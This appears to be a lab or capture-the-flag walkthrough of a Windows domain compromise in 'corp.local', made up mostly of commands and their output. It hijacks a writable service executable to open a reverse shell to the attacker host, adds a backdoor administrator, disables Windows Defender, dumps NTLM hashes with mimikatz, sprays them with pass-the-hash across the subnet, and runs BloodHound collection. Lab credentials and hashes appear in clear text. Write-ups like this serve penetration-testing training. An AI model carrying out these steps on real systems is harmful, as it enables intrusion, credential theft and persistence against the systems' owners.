

Credentials for 172.16.1.101 / WS02
RDP into WSADM
xfreerdp /v:172.16.1.36 /u:ned.flanders_adm /p:Lefthandedyeah! /drive:tools,/home/user/Documents /dynamic-resolution
Check for unquoted services
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "C:\windows\\" |findstr /i /v """
We get a hit

We have write permission to the main executable binary C:\Program Files (x86)\Lavasoft\Web Companion\Application
Let's hijack the executable and privesc through that
Use winpayloads - download with
To get around Windows Defender, I use RCAT
The issue here though is we have to replace the exe for the service but call RCAT with our IP and Port as parameters.
To do this, I used Bat-to-Exe Converter
Just put RCAT.exe in C:\temp, make an EXE with the converter with just 1 line
C:\temp\rcat.exe connect 10.10.16.94 4444
Take the EXE you generated with the 1 line, copy it to WSADM. Name it Lavasoft.WCAssistant.WinService.exe and copy it to C:\Program Files (x86)\Lavasoft\Web Companion\Application\
Start your listener on your attack host
└─$ ./rcat listen 10.10.16.94 4444
Listening on 10.10.16.94:4444
Run the command to start the service
C:\Users\ned.flanders_adm>sc.exe start WCAssistantService
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
It will hang a little but eventually say it failed to start
Check and it should have connected to our listener
└─$ ./rcat listen 10.10.16.94 4444
Listening on 10.10.16.94:4444
[+] Connection from 10.10.110.3:12606
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> whoami
whoami
nt authority\system
Grab the root flag
PS C:\users\wsadmin\desktop> type flag.txt
type flag.txt
Put a local admin so we can do a little more
net user merlin Password123! /add
net localgroup administrators merlin /add
Switch RDP over to this user
xfreerdp /v:172.16.1.36 /u:merlin /p:Password123! /drive:tools,/home/user/Documents /dynamic-resolution
Turn off Windows Defender so we can use fun tools (start Powershell administratively)
powershell set-mppreference -disablerealtimemonitoring $true
Mimikatz needs the highest credentials (nt authority\system) to be able to dump passwords
To get this, upload PsExec64.exe
Open cmd.exe administratively (right click -> run as administrator)
Then run
PsExec64.exe -s -i cmd.exe
Then we have nt authority\system and can run mimikatz.exe
mimikatz.exe “log” “privilege::debug” “sekurlsa::logonpasswords full” “exit”
Check the log file for any results
* Username : wsadmin
* Domain : CORP
* NTLM : 669b12a3bac275251170afbe2c5de8c2
* SHA1 : 62e3e767c5d2ad6521d8d3e0e672e299437ed666
* DPAPI : 41aff401de68a7ae9e94bdb6907dddb2
Let's nmap and see what other hosts there are so we can spray these creds to see where to move to next
└─$ nmap -sn 172.16.1.0/24 -oN corp.pingsweep.txt
└─$ grep -Eo '[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+' corp.pingsweep.txt | awk '{print $1}' > corp_ip_list.txt
└─$ cat corp_ip_list.txt
172.16.1.5
172.16.1.15
172.16.1.23
172.16.1.24
172.16.1.26
172.16.1.30
172.16.1.36
172.16.1.101
172.16.1.200
172.16.1.201
172.16.1.220
└─$ crackmapexec smb corp_ip_list.txt -u wsadmin -H 669b12a3bac275251170afbe2c5de8c2 -d corp.local
/home/user/.pyenv/versions/3.8.1/lib/python3.8/site-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
"class": algorithms.Blowfish,
SMB 172.16.1.15 445 SQL01 [*] Windows Server 2016 Standard 14393 x64 (name:SQL01) (domain:corp.local) (signing:False) (SMBv1:True)
SMB 172.16.1.220 445 SRV01 [*] Windows Server 2016 Standard 14393 x64 (name:SRV01) (domain:corp.local) (signing:True) (SMBv1:True)
SMB 172.16.1.101 445 WS02 [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS02) (domain:corp.local) (signing:False) (SMBv1:True)
SMB 172.16.1.30 445 MS01 [*] Windows Server 2016 Standard 14393 x64 (name:MS01) (domain:corp.local) (signing:False) (SMBv1:True)
SMB 172.16.1.26 445 FS01 [*] Windows Server 2016 Standard 14393 x64 (name:FS01) (domain:corp.local) (signing:False) (SMBv1:True)
SMB 172.16.1.5 445 DC01 [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:True)
SMB 172.16.1.24 445 WEB-WIN01 [*] Windows 10.0 Build 14393 x64 (name:WEB-WIN01) (domain:corp.local) (signing:False) (SMBv1:False)
SMB 172.16.1.200 445 DC0 [*] Windows 10.0 Build 17763 x64 (name:DC0) (domain:corp.local) (signing:True) (SMBv1:False)
SMB 172.16.1.201 445 JOE-LPTP [*] Windows 10.0 Build 19041 x64 (name:JOE-LPTP) (domain:corp.local) (signing:False) (SMBv1:False)
SMB 172.16.1.36 445 WSADM [*] Windows 10.0 Build 17134 x64 (name:WSADM) (domain:corp.local) (signing:False) (SMBv1:False)
SMB 172.16.1.15 445 SQL01 [+] corp.local\wsadmin 669b12a3bac275251170afbe2c5de8c2
SMB 172.16.1.220 445 SRV01 [-] corp.local\wsadmin:669b12a3bac275251170afbe2c5de8c2 STATUS_LOGON_FAILURE
SMB 172.16.1.101 445 WS02 [+] corp.local\wsadmin 669b12a3bac275251170afbe2c5de8c2 (Pwn3d!)
SMB 172.16.1.30 445 MS01 [+] corp.local\wsadmin 669b12a3bac275251170afbe2c5de8c2
SMB 172.16.1.26 445 FS01 [+] corp.local\wsadmin 669b12a3bac275251170afbe2c5de8c2
SMB 172.16.1.5 445 DC01 [+] corp.local\wsadmin 669b12a3bac275251170afbe2c5de8c2
SMB 172.16.1.24 445 WEB-WIN01 [+] corp.local\wsadmin 669b12a3bac275251170afbe2c5de8c2
SMB 172.16.1.200 445 DC0 [-] corp.local\wsadmin:669b12a3bac275251170afbe2c5de8c2 STATUS_LOGON_FAILURE
SMB 172.16.1.201 445 JOE-LPTP [-] corp.local\wsadmin:669b12a3bac275251170afbe2c5de8c2 STATUS_LOGON_FAILURE
SMB 172.16.1.36 445 WSADM [+] corp.local\wsadmin 669b12a3bac275251170afbe2c5de8c2 (Pwn3d!)
Lastly while we're on this machine with domain credentials, let's snag a Bloodhound dump
PS C:\temp> . .\SharpHound.ps1
PS C:\temp> Invoke-Bloodhound -collectionmethod All -domain corp.local
2023-05-01T20:19:50.6417253-04:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-05-01T20:19:50.8292277-04:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-05-01T20:19:50.8448507-04:00|INFORMATION|Initializing SharpHound at 8:19 PM on 5/1/2023
2023-05-01T20:19:51.3604817-04:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-05-01T20:19:51.5636028-04:00|INFORMATION|Beginning LDAP search for corp.local
2023-05-01T20:19:51.6731189-04:00|INFORMATION|Producer has finished, closing LDAP channel
2023-05-01T20:19:51.6731189-04:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-05-01T20:20:37.4070011-04:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 92 MB RAM
2023-05-01T20:20:40.4070004-04:00|INFORMATION|Consumers finished, closing output channel
2023-05-01T20:20:40.4539969-04:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-05-01T20:20:40.6100732-04:00|INFORMATION|Status: 356 objects finished (+356 7.265306)/s -- Using 142 MB RAM
2023-05-01T20:20:40.6100732-04:00|INFORMATION|Enumeration finished in 00:00:49.0547312
2023-05-01T20:20:40.7201222-04:00|INFORMATION|Saving cache with stats: 315 ID to type mappings.
322 name to SID mappings.
0 machine sid mappings.
2 sid to domain mappings.
0 global catalog mappings.
2023-05-01T20:20:40.7350684-04:00|INFORMATION|SharpHound Enumeration Completed at 8:20 PM on 5/1/2023! Happy Graphing!